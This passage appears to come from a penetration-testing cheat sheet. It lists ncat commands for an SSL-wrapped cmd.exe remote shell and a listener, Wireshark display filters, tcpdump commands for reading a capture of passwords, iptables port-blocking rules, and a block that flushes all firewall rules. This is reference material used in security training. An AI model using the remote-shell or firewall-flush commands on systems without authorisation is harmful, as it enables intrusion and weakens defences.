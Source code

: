     -   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    -   Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`

-   Wireshark
    -   Show only SMTP (port 25) and ICMP traffic:
    
        `tcp.port eq 25 or icmp`
        
    -   Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:
        
        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`
        
    -   Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:
        
        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`
        
    -   Some commands are equal
        
        `ip.addr == xxx.xxx.xxx.xxx`
        
         Equals
        
        `ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx `

        ` ip.addr != xxx.xxx.xxx.xxx`
        
         Equals
        
        `ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx`

-   Tcpdump

    -   Display a pcap file  
       `tcpdump -r passwordz.pcap`

    -   Display ips and filter and sort  
        `tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head`

    -   Grab a packet capture on port 80  
        `tcpdump tcp port 80 -w output.pcap -i eth0`

    -   Check for ACK or PSH flag set in a TCP packet  
        `tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap`

-   IPTables 

    -   Deny traffic to ports except for Local Loopback

        `iptables -A INPUT -p tcp --destination-port 13327 ! -d $ip -j DROP  `
    
        `iptables -A INPUT -p tcp --destination-port 9991 ! -d $ip -j DROP`

    -   Clear ALL IPTables firewall rules
    
            iptables -P INPUT ACCEPT
            iptables -P FORWARD ACCEPT
            iptables -P OUTPUT ACCEPT
            iptables -t nat -F
            iptables -t mangle -F
            iptables -F
            iptables -X
            iptables -t raw -F iptables -t raw -X
